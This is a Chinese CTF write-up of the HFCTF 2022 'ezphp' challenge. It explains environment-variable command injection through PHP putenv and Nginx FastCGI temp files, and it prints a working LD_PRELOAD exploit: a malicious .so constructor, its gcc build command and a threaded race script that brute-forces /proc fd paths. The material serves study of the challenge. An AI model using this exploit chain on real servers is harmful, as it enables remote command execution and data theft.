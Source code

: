 ```yaml
---
id: hf2022-ezphp
title: hf2022-ezphp
date: 2022-03-21 12:40:30
sidebar_position: 10
---
```




## 前言

当时是没做出来，一直在看P神的这篇：[我是如何利用环境变量注入执行任意命令 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)

后来发现wp都看不懂！！就打算复现学习一下，属于是那段时间没打比赛拉下的东西

## 题目环境

1. docker环境[My-CTF-Challenges/hfctf-2022/ezphp at master · waderwu/My-CTF-Challenges (github.com)](https://github.com/waderwu/My-CTF-Challenges/tree/master/hfctf-2022/ezphp)

   这里我用的docker file搭了个本地，把文件解压到目录下

   下面是当时的history，最后访问vps映射的端口就行了
   ps：url要加上index.php（因为优先选择了存在的index.nginx-debian.html）

   ```
   docker build .
   docker images
   docker run -d -p 8899:80 --name testphp d7ffa14d954b
   docker ps
   docker exec -it 2d43 /bin/bash
   ```
   
2. 也可以去pwnthebox或者buu的环境：

   - [题库 | PwnTheBox - Hacking Platform - CTF Platform](https://ce.pwnthebox.com/challenges?q=ezphp&page=1&id=1906)
   - [BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[HFCTF2022]ezchain)

## 正文

题目如下：

```php
<?php (empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

看到就想起了P神的这篇：

> [我是如何利用环境变量注入执行任意命令 | 离别歌](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)
> php中调用system本质上是调用了`sh -c`
>
> 在不同操作系统中：
>
> - debian：sh→dash
> - centos：sh→bash
>
> 总结：
>
> - `BASH_ENV`：可以在`bash -c`的时候注入任意命令
> - `ENV`：可以在`sh -i -c`的时候注入任意命令
> - `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
> - `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
> - `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

不过本题的环境是debian系统，也就是dash，所以很多师傅就去审dash源码想找一下p神没找到的利用姿势

> 我看了两晚上dash代码，几乎要给我看吐了，我很难理解为什么代码里要用这么多goto。最后还是很遗憾，虽然找到了两个可以进行命令注入的环境变量，但它们都不能在sh -c时触发。

看了wp，本题涉及到的是另外的利用点：

- Nginx临时文件 
  [hxp CTF 2021 - A New Novel LFI - 跳跳糖](https://tttang.com/archive/1384/)
  [0xbb - PHP LFI与Nginx协助 (bierbaumer.net)](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

  - 当 Nginx 接收来自 FastCGI 的响应时，若大小超过限定值 (大概 32Kb) 不适合以内存的形式来存储的时候，一部分就会以临时文件的方式保存到磁盘上。在 `/var/lib/nginx/fastcgi` 下产生临时文件。
  - 但是Nginx 创建文件就立即删除了，不过Nginx删除的`/var/lib/nginx/fastcgi`下的临时文件，还可以在`/proc/pid/fd/`下找到
    （如果打开一个进程打开了某个文件，某个文件就会出现在 `/proc/pid/fd/` 目录下，而如果该文件没被关闭的情况下就被删除，仍能在对应的`/proc/pid/fd`下找到并读取文件内容）

  

- LD_PRELOAD加载SO

  [通过LD_PRELOAD绕过disable_functions - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/86544746)

  - so文件就是c/c++编译出来的动态链接库，也叫共享库

  - 程序在动态链接时需要一个动态链接库，作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新

  - LD_PRELOAD就是这样一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。

    **那就可以构造恶意的so文件，其中是重写的系统函数，当执行代码函数，就会调用恶意库中的系统函数**，从而实现任意系统命令执行，这就需要条件：

    - 能够上传自己的.so文件
    - 能够控制环境变量的值（设置LD_PRELOAD变量），比如putenv函数

  

那么本题思路如下：

1. 请求一个过大的的文件使得Nginx产生临时文件缓存
2. 传一个填满脏数据的 so文件
3. 遍历 pid 以及 fd ，竞争 LD_PRELOAD 包含 proc目录下的临时文件 从而实现 LFI

> exp.c
>
> ```c
> #include <stdlib.h>
> #include <stdio.h>
> #include <string.h>
> 
> __attribute__ ((__constructor__)) void preload (void){
>   unsetenv("LD_PRELOAD");
>   system("id");
>   system("cat /flag > /var/www/html/flag");
> }
> ```
>
> 编译为so
>
> ```sh
> gcc -shared -fPIC exp.c -o exp.so
> ```
>
> 竞争脚本（这里用的是r3师傅写的[2022 虎符CTF Writeup by 唯独你没懂 (qq.com)](https://mp.weixin.qq.com/s?__biz=Mzg2MjYxMjAzMg==&mid=2247483903&idx=1&sn=26b6af39bc1bf9a0055c0be38a666472&chksm=ce047ed0f973f7c6b7a2ee4a300d10d22cf2a6e38fcbe5190011c8f08b14da9a30db2bf11061&mpshare=1&scene=23&srcid=0321x9PydhpbLJpuag0EBm4W&sharer_sharetime=1647861577180&sharer_shareid=3679f20229d72930158c21ee7f573b1e#rd)）
>
> ```python
> import  threading, requests
> 
> url="https://xxx/"
> nginx_workers = [10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]
> done = False
> 
> 
> def uploader():
>     print('[+] starting uploader')
>     with open("exp.so","rb") as f:
>         data = f.read()
>     while not done:
>         requests.get(url, data=data + (16 * 1024 * 'A').encode())
> for _ in range(16):
>     t = threading.Thread(target=uploader)
>     t.start()
> def bruter(pid):
>     global done
>     while not done:
>         print(f'[+] brute loop restarted: {pid}')
>         for fd in range(4, 32):
>             try:
>                 requests.get(url, params={
>                     'env': f"LD_PRELOAD=/proc/{pid}/fd/{fd}"
>                 })
>             except:
>                 pass
> 
> 
> for pid in nginx_workers:
>     a = threading.Thread(target=bruter, args=(pid, ))
>     a.start()
> 
> ```
>
> 这里因为要遍历pid和fd，所以会久一些。
> 如果是搭在docker里，就可以直接找nginx worker看一下
>
> ```
> ps -ef |grep nginx |grep -v grep
> ```



